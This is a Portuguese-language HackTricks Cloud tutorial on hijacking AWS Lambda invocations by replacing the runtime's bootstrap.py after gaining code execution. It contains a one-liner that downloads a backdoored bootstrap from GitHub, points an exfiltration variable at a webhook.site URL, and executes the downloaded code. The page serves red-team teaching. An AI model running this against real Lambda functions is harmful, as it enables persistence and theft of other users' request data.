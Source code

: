 # AWS - Roubar Solicitações Lambda

{% hint style="success" %}
Aprenda e pratique AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo no Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo no telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Fluxo Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** é um processo fora do contêiner que **envia** **invocações** para o processo **init**.
2. O processo init escuta na porta **9001** expondo alguns endpoints interessantes:
* **`/2018-06-01/runtime/invocation/next`** – obtém o próximo evento de invocação
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – retorna a resposta do handler para a invocação
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – retorna um erro de execução
3. **bootstrap.py** tem um loop que obtém invocações do processo init e chama o código do usuário para tratá-las (**`/next`**).
4. Finalmente, **bootstrap.py** envia ao init a **resposta**

Note que o bootstrap carrega o código do usuário como um módulo, então qualquer execução de código realizada pelo código do usuário está realmente acontecendo neste processo.

## Roubando Solicitações Lambda

O objetivo deste ataque é fazer com que o código do usuário execute um processo **`bootstrap.py`** malicioso dentro do processo **`bootstrap.py`** que manipula a solicitação vulnerável. Desta forma, o processo **bootstrap malicioso** começará a **conversar com o processo init** para manipular as solicitações enquanto o bootstrap **legítimo** está **preso** executando o malicioso, então não pedirá solicitações ao processo init.&#x20;

Esta é uma tarefa simples de realizar, pois o código do usuário está sendo executado pelo processo **`bootstrap.py`** legítimo. Então o atacante poderia:

* **Enviar um resultado falso da invocação atual para o processo init**, para que o init pense que o processo bootstrap está esperando por mais invocações.
* Uma solicitação deve ser enviada para **`/${invoke-id}/response`**&#x20;
* O invoke-id pode ser obtido da pilha do processo **`bootstrap.py`** legítimo usando o módulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (como [proposto aqui](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ou apenas solicitando-o novamente para **`/2018-06-01/runtime/invocation/next`** (como [proposto aqui](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Executar um **`boostrap.py`** malicioso que manipulará as próximas invocações
* Para fins de furtividade, é possível enviar os parâmetros de invocações lambda para um C2 controlado pelo atacante e depois manipular as solicitações normalmente.
* Para este ataque, é suficiente obter o código original de **`bootstrap.py`** do sistema ou [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), adicionar o código malicioso e executá-lo a partir da invocação lambda atual.

### Passos do Ataque

1. Encontrar uma vulnerabilidade **RCE**.
2. Gerar um **bootstrap** **malicioso** (e.g. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Executar** o bootstrap malicioso.

Você pode realizar essas ações facilmente executando:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Para mais informações, confira [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referências

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Aprenda e pratique AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo no Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo no Telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
